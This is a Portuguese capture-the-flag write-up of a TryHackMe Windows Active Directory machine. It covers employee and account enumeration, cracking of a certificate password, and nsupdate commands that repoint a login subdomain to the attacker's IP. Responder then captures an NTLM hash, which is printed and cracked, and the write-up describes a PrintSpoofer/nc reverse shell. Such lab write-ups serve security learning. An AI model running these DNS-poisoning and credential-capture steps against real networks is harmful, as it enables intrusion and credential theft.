


> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://windcorp.thm/`
> - Período: 02/10/2025 á 03/10/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Windows

# Sumário

1. [[#1. Reconhecimento]]
	1. [[#1.1 Varredura de Rede com Nmap]]
	2. [[#1.2 Enumeração de DNS]]
2. [[#2. Exploração]]
	1. [[#2.1 Enumeração da Web]]
		1. [[#2.1.1 `fire.windcorp.thm`]]
			1. [[#2.1.1.1 Enumeração de Funcionários da Empresa]]
		2. [[#2.1.2 `selfservice.windcorp.thm`]]
		3. [[#2.1.3 `selfservice.dev.windcorp.thm`]]
	2. [[#2.2 Entendendo o arquivo cert.pfx (`PFX/PKCS 12`)]]
		1. [[#2.2.1 Quebrando senha do certificado com `crackpkcs12`]]
	3. [[#2.3 Enumeração de shares SMB (netexec · smbmap)]]
	4. [[#2.4 Verificação de contas AD usando Kerberos (kerbrute)]]
		1. [[#2.4.1 Execução de ASREPRoasting]]
	5. [[#2.5 Atualizações de DNS Inseguras]]
		1. [[#2.5.1 `nsupdate`]]
			1. [[#2.5.1.1 O que eu fiz]]
			2. [[#2.5.1.2 O que isso significa]]
			3. [[#2.5.1.3 Entendendo o comando "principal"]]
	6. [[#2.6 Juntando todas as informações obtidas]]
	7. [[#2.7 Envenenamento de Cache de DNS & Responder (DNS Cache Poisoning & Responder)]]
		1. [[#2.7.1 Capturando credenciais NTLM]]
		2. [[#2.7.2 Quebra de hashes NTLM]]
	8. [[#2.8 Autenticação e acesso usando credenciais comprometidas]]
		1. [[#2.8.1 SMB]]
		2. [[#2.8.2 Powershell]]
3. [[#3. Pós-Exploração]]
4. [[#4. Escalação de Privilégios]]
	1. [[#4.1 Abusando do Privilégio `SeImpersonatePrivilege` Com `PrintSpoofer` e `nc`]] 

# 1. Reconhecimento
## 1.1 Varredura de Rede com Nmap


## 1.2 Enumeração de DNS

A varredura realizada revelou diversas portas abertas no alvo. Durante a análise, foi possível identificar, a partir das informações obtidas no serviço LDAP, o domínio utilizado pela infraestrutura: **“windcorp.thm”**.

```
636/tcp   open     ssl/ldap       syn-ack     Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
```

A partir da identificação da porta **53 (DNS)** aberta, foi realizada uma enumeração inicial utilizando a ferramenta **dig**, com o objetivo de listar os registros DNS associados ao domínio **windcorp.thm**.

`dig windcorp.thm any @10.201.19.172`


Durante a enumeração, foi identificado um **registro TXT** que serve como indício do que poderá ser explorado posteriormente. A mensagem encontrada destaca que:

> _“Permitir atualizações dinâmicas não seguras é uma vulnerabilidade significativa, pois atualizações podem ser aceitas de fontes não confiáveis.”_

Esse comportamento está relacionado ao uso do **Kerberos** para autenticação de clientes no servidor DNS. Caso a configuração permita atualizações dinâmicas sem a devida validação, torna-se possível manipular registros DNS de forma maliciosa, o que pode ser explorado em etapas futuras do ataque.


# 2. Exploração
## 2.1 Enumeração da Web

### 2.1.1 `fire.windcorp.thm`

```
443/tcp   open     ssl/http       syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
```

Durante a enumeração de serviços foram identificados três nomes de host relevantes na infraestrutura DNS: `fire.windcorp.thm`, `selfservice.windcorp.thm` e `selfservice.dev.windcorp.thm`. Para facilitar testes e resolução local durante a análise, esses nomes foram adicionados ao arquivo **/etc/hosts** do meu ambiente.
#### 2.1.1.1 Enumeração de Funcionários da Empresa




Identificação de Usuários
```
Antonietta Vidal
Britney Palmer
Brittany Cruz
Carla Meyer
Buse Candan
Edeltraut Daub
Edward Lewis
Emile Lavoie
Emile Henry
Emily Anderson
Hemmo Boschma
Isabella Hughes
Isra Saur
Jackson Vasquez
Jaqueline Dittmer
Emily Jensen
Lily Levesque
Kirk Uglas
```


E por ser links da para analisar os emails
```
organicfish718@fire.windcorp.thm
organicwolf509@fire.windcorp.thm
tinywolf424@fire.windcorp.thm
angrybird253@fire.windcorp.thm
buse@fire.windcorp.thm
Edeltraut@fire.windcorp.thm
Edward@fire.windcorp.thm
Emile@fire.windcorp.thm
tinygoose102@fire.windcorp.thm
brownostrich284@fire.windcorp.thm
sadswan869@fire.windcorp.thm
whiteleopard529@fire.windcorp.thm
happymeercat399@fire.windcorp.thm
orangegorilla428@fire.windcorp.thm
Emilieje
lilyleAndSparky
kirkug
```


Ao analisar as requisições geradas ao acessar o site, identifiquei um **serviço web acessível na porta 9090**.


Ao realizar fuzzing de diretórios, foi encontrado um diretório específico (`/powershell`) que chamou atenção por retornar um conteúdo incomum e que merece investigação adicional.


### 2.1.2 `selfservice.windcorp.thm`



### 2.1.3 `selfservice.dev.windcorp.thm`

Ao acessar um dos subdomínios identificados, encontrámos uma página com **poucos elementos visíveis** na interface e sem conteúdo relevante no código-fonte estático.


Durante o fuzzing de diretórios, foi identificado um **diretório de backup exposto** em `/backup`.


## 2.2 Entendendo o arquivo cert.pfx (`PFX/PKCS#12`)

De acordo com o [HackTricks](https://book.hacktricks.xyz/cryptography/certificates)

> O formato PKCS#12 ou PFX é um formato binário para armazenar o certificado do servidor, os certificados intermediários e a chave privada em um arquivo criptografável. Arquivos PFX geralmente têm extensões como .pfx e .p12. Arquivos PFX são normalmente usados ​​em máquinas Windows para importar e exportar certificados e chaves privadas.


Usando o `openssl` para visualizar detalhes do certificado não conseguimos devido a proteção por senha.


### 2.2.1 Quebrando senha do certificado com `crackpkcs12`

Utilizando a ferramenta [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) que pode ser usada para quebrar senhas de arquivos PKCS#12 (extensão .p12 ou .pfx).


> [!Credencial Quebrada]
> ganteng


## 2.3 Enumeração de shares SMB (netexec · smbmap)

As portas `139` (NetBIOS) e `445` (SMB) encontram-se abertas. Tentei enumerar os shares usando `netexec` (ou `smbmap`), porém o acesso anônimo não está habilitado, impedindo listagens sem credenciais válidas.


## 2.4 Verificação de contas AD usando Kerberos (kerbrute)

A porta `88` (Kerberos) está acessível. Utilizando a lista de usuários obtida durante a enumeração web, executei o _kerbrute_ para verificar quais contas do Active Directory são válidas, explorando a pré-autenticação (pre-auth) do Kerberos.


`kerbrute userenum --dc 10.201.74.34 -d windcorp.thm emails.txt`


### 2.4.1 Execução de ASREPRoasting

Foram identificadas 15 contas de usuário válidas. Pretendi realizar AS-REP Roasting utilizando as ferramentas do Impacket, contudo nenhuma das contas apresentou a configuração necessária (pré-autenticação desabilitada) para ser suscetível ao AS-REP Roasting.

`GetNPUsers.py windcorp.thm/ -dc-ip 10.201.50.142 -usersfile ~/Temporario/emails-validos-kerberos.txt -no-pass -request -outputfile ~/Temporario/kerberos-usuarios-encontrados.txt`


## 2.5 Atualizações de DNS Inseguras

Após diversas tentativas infrutíferas de enumeração e exploração, retomei a pista indicada pela primeira flag: atualizações DNS inseguras. Aproveitei essa hipótese para tentar inserir um registro TXT sem autenticação, utilizando o utilitário `nsupdate` para enviar uma atualização dinâmica ao servidor DNS.
### 2.5.1 `nsupdate`

`nsupdate` é a ferramenta (do pacote BIND / ISC) para enviar **Dynamic DNS Update** (RFC 2136) a um servidor, permitindo adicionar/remover registros sem editar o zone file manualmente.


#### 2.5.1.1 O que eu fiz
- Primeiramente eu abri o `nsupdate`e apontei para o servidor DNS autoritativo
- Enviei uma atualização (update) pedindo para adicionar (add) um registro TXT com o TTL de 5 segundos (Significa que o registro pode ser revalidado rapidamente; é um TTL muito baixo)
- Executei `send` para transmitir a atualização ao servidor
- Em seguida, com o `nslookup` (também apontando para o IP da máquina) perguntei pelo tipo `txt` de `test.windcorp.thm` que obtive o valor que eu adicionei

#### 2.5.1.2 O que isso significa
- **A atualização funcionou.** O servidor 10.201.50.142 aceitou a requisição e inseriu o registro TXT `test.windcorp.thm` com o conteúdo que eu enviei.
- Como consegui ver o registro imediatamente com `nslookup`, o servidor é **autoritativo** para a zona `windcorp.thm` ou pelo menos encaminhou/serviu a resposta autoritativa.
- **Importante (segurança):** o servidor está aceitando _updates dinâmicos sem autenticação_ (ou aceita updates da sua origem IP). Isso é exatamente a “atualização DNS insegura” — um problema sério que permite que um atacante injete registros DNS (TXT, A, CNAME, etc.) sem chaves TSIG/GSS-TSIG.
- Se o servidor tivesse exigido **TSIG** ou **GSS-TSIG**, o `nsupdate` sem chave teria falhado com erro (no `nsupdate` veria algo como `update failed: REFUSED` ou similar). Aqui não houve erro.

#### 2.5.1.3 Entendendo o comando "principal"

`update add test.windcorp.thm 5 TXT "Isso e para testar a atualizacao de DNS insegura"`

- **`update`**  
    Indica ao `nsupdate` que vamos fazer uma operação de atualização dinâmica (RFC 2136). Há outros verbos como `delete` para remover registros.
- **`add`**  
    Tipo da operação: aqui estamos **adicionando** um novo registro. Poderia ser `delete` para excluir ou `add` com parâmetros diferentes para alterar.
- **`test.windcorp.thm`**  
    O **nome canônico totalmente qualificado** (FQDN) do registro que você quer criar.
    - Se não terminar com `.` e você estiver numa zona, o servidor pode resolver de forma relativa; usar o FQDN com o ponto final é uma boa prática: `test.windcorp.thm.`
    - Esse é o rótulo que passará a existir na zona DNS alvo.
- **`5`**  
    O **TTL** (time-to-live) em segundos. Indica por quanto tempo caches (resolvedores recursivos) devem guardar essa resposta antes de descartar/validar de novo.
    
    - Valor `5` é muito baixo — útil em CTFs para testes rápidos e evitar cache longo. Em produção normalmente se usa segundos maiores (p. ex. 300, 3600).
- **`TXT`**  
    O **tipo de registro DNS**. `TXT` armazena texto livre — frequentemente usado para verificações (challenge TXT), chaves SPF, ou qualquer string arbitrária. Podem existir múltiplos `TXT` para o mesmo nome.
    
- **`"Isso e para testar a atualizacao de DNS insegura"`**  
    O **conteúdo** do registro TXT.
    - Deve ser colocado entre aspas se conter espaços.
    - Internamente um registro TXT pode ser composto por múltiplas strings (cada uma com até 255 octets); a ferramenta/servidor costuma concatenar corretamente ao apresentar.

## 2.6 Juntando todas as informações obtidas

- Há um portal de login de autoatendimento em “ **_selfservice.windcorp.thm_** ” que usa autorização NTLM.
- Parece haver usuários ativos efetuando login com base nas mudanças de cor dos ícones.
- Encontrei um certificado e descobri sua senha.
- Sou capaz de manipular registros DNS sem autenticação.
- Há uma página de acesso web do PowerShell, mas não tenho credenciais.

Considerando que o portal de login de autoatendimento utiliza autorização NTLM, pensei em como o Responder poderia ser usado para interceptar e capturar esse hash NTLM. Se eu pudesse personificar o domínio " **_selfservice.windcorp.thm_** " substituindo o registro DNS pelo meu próprio registro que aponta para o meu IP, talvez eu conseguisse capturar um hash NTLM de um usuário que efetuou login pelo portal de login de autoatendimento.

## 2.7 Envenenamento de Cache de DNS & Responder (DNS Cache Poisoning & Responder)

Para conseguir isso, posso realizar o `poisoning` do cache DNS

>Envenenamento de cache DNS é o ato de inserir informações falsas em um cache DNS, de modo que as consultas DNS retornem uma resposta incorreta e os usuários sejam direcionados para sites errados.

Comecei extraindo o certificado e a chave privado do arquivo `cert.pfx` usando o `openssl`.

Primeiro eu extrair o certificado e a chave privada do `cert.pfx` e salvei em `.../Responder/certs`

```
Extrair Certificado
openssl pkcs12 -in ~/Downloads/cert.pfx -out selfservice.cert.pem -clcerts -nokeys

Extrair Chave
openssl pkcs12 -in ~/Downloads/cert.pfx -out selfservice.key.pem -nocerts -nodes
```


Agora eu apenas tenho que editar o arquivo de configuração do  Responder HTTPS Server em `.../Responder/Responder.conf`


Agora que as configurações HTTPS do Responder foram definidas, usei **o nsupdate** para remover o antigo registro `DNS A` para “ **_selfservice.windcorp.thm_** ” e adicionar um novo registro A que resolve o endereço IP das minhas máquinas de ataque.

```
nsupdate

> server 10.201.50.142 
> update delete selfservice.windcorp.thm  
> send  
> update add selfservice.windcorp.thm 86400 A 10.13.72.32
> send  
> quit
```

### 2.7.1 Capturando credenciais NTLM

Em seguida, iniciei o _Responder_ e aguardei a captura do hash NTLM oriundo das interações de autenticação na rede.


```
edwardle::WINDCORP:03fb4988574e4564:7138D0BB0F0E3D7DFA53121D7B579233:0101000000000000164685CB7034DC01361DD3FD88F821B100000000020008005900410030004F0001001E00570049004E002D00320033004500530030004C0050004C00520032003000040014005900410030004F002E004C004F00430041004C0003003400570049004E002D00320033004500530030004C0050004C005200320030002E005900410030004F002E004C004F00430041004C00050014005900410030004F002E004C004F00430041004C0008003000300000000000000001000000002000007F118DCCF9B5686E58C4D049B33EDD19649B6C1E97313E535D7FBD99FEEBF1DA0A00100012C690EF73A24A276DC3EDC54B8CC48409003A0048005400540050002F00730065006C00660073006500720076006900630065002E00770069006E00640063006F00720070002E00740068006D000000000000000000
```


### 2.7.2 Quebra de hashes NTLM

Utilizando o Hashcat, realizei um ataque de força bruta sobre o hash capturado. A operação foi bem-sucedida e revelou as credenciais da conta `edwardle`.


> [!Credencial Revelada com a Quebra da Hash]
> !Angelus25!

## 2.8 Autenticação e acesso usando credenciais comprometidas

### 2.8.1 SMB

Com a credencial obtida podermos acessar o SMB em busca de mais informação de usuários.


### 2.8.2 Powershell


# 3. Pós-Exploração

Agora que o acesso ao PowerShell foi obtido, o próximo passo é realizar a enumeração local para identificar arquivos sensíveis, credenciais armazenadas ou possíveis caminhos para escalonamento de privilégios.


Verifiquei os usuários pertencentes ao grupo 'IT' para identificar possíveis alvos com privilégios elevados ou com potencial de movimentação lateral.


Durante a análise do ambiente, identifiquei que o usuário possui o privilégio `SeImpersonatePrivilege`, o que possibilita a personificação de tokens de outros processos. Esse privilégio pode ser explorado para escalar para SYSTEM, especialmente quando combinado com serviços que aceitam conexões NTLM (como DCOM ou RPC). A técnica consiste em induzir um serviço privilegiado a autenticar contra uma armadilha controlada (NTLM relay), capturar e duplicar o token, e então executar um processo com os privilégios do token capturado — tipicamente SYSTEM.

# 4. Escalação de Privilégios

## 4.1 Abusando do Privilégio `SeImpersonatePrivilege` Com `PrintSpoofer` e `nc`

Para explorar o privilégio `SeImpersonatePrivilege`, utilizei os binários `PrintSpoofer.exe` e `nc.exe`, executando tudo via PowerShell. O objetivo desta etapa é fazer com que o `PrintSpoofer` execute o `nc.exe` com privilégios elevados (SYSTEM), iniciando assim uma shell reversa administrativa para minha máquina atacante.


Em seguida, executei o `PrintSpoofer.exe`, configurado para iniciar o `nc.exe` com uma conexão reversa apontando para meu listener. Isso permitiu capturar uma shell com privilégios elevados (SYSTEM) na minha máquina atacante.


